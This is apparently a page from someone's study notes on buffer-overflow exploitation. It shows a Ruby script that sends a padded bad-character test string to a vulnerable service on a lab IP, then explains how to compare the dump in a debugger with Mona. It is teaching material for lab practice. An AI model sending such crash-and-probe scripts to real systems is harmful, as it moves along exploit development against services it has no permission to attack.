

One important step in BOF is to identify bad characters. I followed a bit different way to find all bad characters.
```Ruby
require 'socket'

badchar_test = ""
badchars = [0x00,0x0A]

(0x00..0xFF+1).step(1) do |i|
    if !badchars.include?(i)
        badchar_test += i.chr(Encoding::UTF_8)
    end
end

File.open("test_badchar.bin", 'w') { |file| file.write(badchar_test)}

buff = "A"*146
buff += "B"*4
buff += badchar_test
RHOST = "192.168.0.227"
RPORT = 31337

begin
    s = TCPSocket.open(RHOST, RPORT)
    s.puts buff + '\r\n'
    s.close
rescue Interrupt
    puts "Debugger crashed at #{buffSize} bytes"
end
```
When we run this script against the vulnerable program, it will generate a file called "badcahr_test.bin". After the crash, right click on ESP and click on "Follow in Dump":



We can now bring our badchars_test.bin to our Windows VM by using
```python -m SimpleHTTPServer 80```

And with the help of Mona modules, we can compare the file to the actual badchars in the dump:


We can see x00 and x0A are bad characters that we need to omit in our custom payload.

[<= Go Back to BOF Menu](bufferoverflows.md)

[<= Go Back to Main Menu](index.md)
